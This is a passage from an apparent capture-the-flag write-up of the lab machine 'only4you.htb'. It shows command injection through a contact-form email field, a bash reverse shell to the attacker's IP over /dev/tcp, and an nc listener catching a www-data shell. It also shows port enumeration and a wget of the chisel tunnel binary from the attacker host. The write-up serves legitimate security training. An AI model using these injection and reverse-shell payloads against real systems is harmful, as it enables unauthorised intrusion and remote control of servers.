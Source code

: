 ```
listening on [any] 80 ...
connect to [10.10.14.139] from (UNKNOWN) [10.10.11.210] 42580
GET / HTTP/1.1
Host: 10.10.14.139
User-Agent: curl/7.68.0
Accept: */*
```

We can use this to spawn a reverse shell:
```
bash -c '/bin/bash -i >& /dev/tcp/10.10.14.139/8888 0>&1
```

payload:
```
$ curl http://only4you.htb/ -d "email=asdf@asdf.com;%3b+bash+-c+'/bin/bash+-i+>%26+/dev/tcp/10.10.14.139/8888+0>%261'&subject=&message="
```
On listener:
```
$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.139] from (UNKNOWN) [10.10.11.210] 54938
whoami
www-data
```

### Enumerating the system as www-data

Running netstat, we find unusual ports open:
```
www-data@only4you:/$ netstat -ano
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
```

These ports can be viewed internally via chisel. Placing chisel on the box:
```
www-data@only4you:/tmp$ wget 10.10.14.139/chisel
--2023-Apr-23 15:11:50--  http://10.10.14.139/chisel
Connecting to 10.10.14.139:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8654848 (8.3M) [application/octet-stream]
Saving to: ‘chisel’

chisel              100%[===================>]   8.25M  1.28MB/s    in 7.4s    

2023-04-23 15:11:58 (1.12 MB/s) - ‘chisel’ saved [8654848/8654848]

www-data@only4you:/tmp$
```
